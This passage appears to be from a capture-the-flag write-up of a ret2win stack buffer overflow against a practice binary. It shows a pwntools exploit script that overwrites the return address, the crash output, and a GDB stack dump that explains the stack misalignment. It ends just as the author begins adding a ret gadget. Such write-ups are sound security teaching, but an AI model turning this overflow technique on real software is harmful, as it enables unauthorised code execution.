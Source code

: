 So `win` is at `0x401186`. Throw that into a simple pwnlib script:

```py
from pwn import *
p = process('./chall')

payload = b'A' * 72 # either do some pwntools cyclic stuff or GEF cyclic find rsp offset
payload += p64(0x401186)  # jump to win

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Uh oh, running this we get the following:
```bash
$ python exploit.py
[+] Starting local process './chall': pid 785692
[+] Receiving all data: Done (204B)
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 785692)
```

We get a segmentation fault! What's wrong?! Let's open this in gdb by replacing our `process('./chall')` with `gdb.debug('./chall')`. Running it again will open GDB for us and show what went wrong:

### Stack Misalignment
```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffdfd5112d8│+0x0000: 0x00000000004011fb  →  <main+0> push rbp     ← $rsp
0x00007ffdfd5112e0│+0x0008: 0x0000000100400040 ("@"?)
0x00007ffdfd5112e8│+0x0010: 0x00007ffdfd5113d8  →  0x00007ffdfd512f76  →  0x006c6c6168632f2e ("./chall"?)
0x00007ffdfd5112f0│+0x0018: 0x00007ffdfd5113d8  →  0x00007ffdfd512f76  →  0x006c6c6168632f2e ("./chall"?)
0x00007ffdfd5112f8│+0x0020: 0x5793733b7c5cc4d9
0x00007ffdfd511300│+0x0028: 0x0000000000000000   ← $rip
0x00007ffdfd511308│+0x0030: 0x00007ffdfd5113e8  →  0x00007ffdfd512f7e  →  "CLUTTER_IM_MODULE=ibus"
0x00007ffdfd511310│+0x0038: 0x0000000000403e00  →  0x0000000000401150  →  <__do_global_dtors_aux+0> endbr64 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7ffdfd511300 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffdfd511300 → add BYTE PTR [rax], al
[#1] 0x4011fb → win()
```

Clearly, this is the problem. We're being redirected to an incorrect address. Why did this happen? Well, we can see that instead of jumping to `0x401186`, we jumped to `0x7ffdfd511300`. This is due to the stack being misaligned (x86_64 requires 16-byte stack alignment before making calls). The easiest solution for this is to pad the payload with a `ret`. We can use pwnlib's built-in ROP finder to do this for us:

